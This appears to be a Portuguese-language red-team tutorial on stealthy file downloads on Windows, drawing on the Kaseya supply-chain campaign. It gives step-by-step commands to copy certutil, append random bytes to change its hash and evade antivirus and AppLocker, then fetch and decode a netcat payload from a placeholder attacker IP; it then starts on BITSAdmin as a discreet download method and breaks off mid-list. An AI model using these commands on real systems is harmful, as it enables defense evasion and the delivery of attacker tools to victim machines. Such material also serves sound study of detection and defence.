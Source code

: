 Baseado na campanha de ataque à cadeia de suprimentos da empresa Kaseya, é possível identificar nos Indicadores de Comprometimento (IoC) uma técnica interessante para modificar a assinatura do binário "certutil" e evitar detecções por antivírus. É importante notar que, embora essa técnica possa não funcionar em ambientes atualizados, ainda pode ser eficaz em sistemas legados.

Para replicar o processo dessa campanha, siga as etapas abaixo:

1. Faça uma cópia do binário original em outra pasta com um nome diferente:

```powershell
copy \windows\system32\certutil.exe \windows\tasks\cert.exe
```

2. Acrescente um conjunto de bytes aleatórios ao final do arquivo:

```powershell
echo %RANDOM% >> \windows\tasks\cert.exe
```

3. Realize o download do arquivo:

```bash
cert.exe -urlcache -split -f "http://IP_ATACANTE/nc.txt" nc.txt && cert.exe -decode nc.txt nc.exe
```

Com essas etapas, o atacante busca alterar o hash do arquivo, o nome e a localização, na tentativa de contornar as soluções de antivírus e de controle de aplicação, como o AppLocker do Windows.

### Processo de Download com BITSAdmin (Máquina Windows - Vítima) 

O BITSAdmin é uma poderosa ferramenta de linha de comando do Windows, projetada para administrar o serviço Background Intelligent Transfer Service (BITS). Essa ferramenta é especialmente valiosa em ambientes de rede, oferecendo aos administradores o controle preciso sobre o agendamento e o progresso das transferências de arquivos em segundo plano. Isso não só otimiza o uso da largura de banda disponível, mas também garante que as transferências ocorram de forma eficiente, sem prejudicar o desempenho geral do sistema.

A flexibilidade do BITSAdmin se destaca, pois permite aos administradores pausar, reiniciar e cancelar tarefas de transferência em andamento. Com essa capacidade, é possível gerenciar facilmente as operações de download e upload executadas pelo BITS, proporcionando um ambiente de rede mais controlado e seguro.

Outro benefício notável do BITSAdmin é a sua utilidade na transferência de arquivos grandes, tornando-o uma escolha ideal para lidar com downloads de alto volume. Além disso, é utilizado pelo sistema operacional para realizar os downloads de atualizações do Windows, tornando sua utilização mais discreta e menos suscetível a detecções indesejadas pelos sistemas de segurança.

Uma funcionalidade bastante apreciada é a capacidade de retomar downloads interrompidos. Caso uma transferência seja interrompida, o BITSAdmin permite que o processo seja reiniciado exatamente de onde parou, economizando tempo e recursos.

Existe algumas formas de realizar o download com BITSAdmin, abaixo serão demonstradas 2 formas de realizar esse processo:

**Primeira Forma:**

1. Crie um trabalho bitsadmin chamado 1, adicione cmd.exe ao trabalho, configure o trabalho para executar o comando de destino e, em seguida, retome e conclua o trabalho.
